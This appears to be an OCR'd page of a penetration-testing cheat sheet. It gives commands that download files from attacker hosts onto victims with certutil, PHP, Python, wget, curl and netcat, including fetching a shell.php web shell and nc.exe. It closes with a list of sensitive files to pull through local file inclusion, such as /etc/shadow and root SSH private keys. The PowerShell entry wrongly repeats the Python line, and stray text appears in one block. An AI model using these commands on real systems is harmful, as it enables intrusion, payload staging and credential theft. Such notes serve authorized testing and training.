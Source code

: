 CertUtil (download file from windows)

```bash
certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe
me
```

PHP

```bash
<?php file_put_contents("/var/tmp/shell.php", file_get_contents("http://10.11.0.245/shell.php")); ?>
```

Python

```bash
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

HTTP: Powershell

```bash
python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
```

HTTP: Linux

```bash
wget http://$ATTACKER/file
curl http://$ATTACKER/file -O
scp ~/file/file.bin user@$TARGET:tmp/backdoor.py
```

NetCat

```bash
# Attacker
nc -l -p 4444 < /tool/file.exe

# Victim
nc $ATTACKER 4444 > file.exe
```

# Web Application

## LFI (Local File Inclusion)

if we found an LFI, we can check each of those paths,

we can use burpsuite intruder to see all
Useful LFI files
Linux
/etc/passwd
/etc/shadow
/etc/issue
/etc/group
/etc/hostname
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/root/.ssh/id_rsa
/root/.ssh/authorized_keys
/home/user/.ssh/authorized_keys
/home/user/.ssh/id_rsa
/proc/[0-9]*/fd/[0-9]*
/proc/mounts
/home/$USER/.bash_history
/home/$USER/.ssh/id_rsa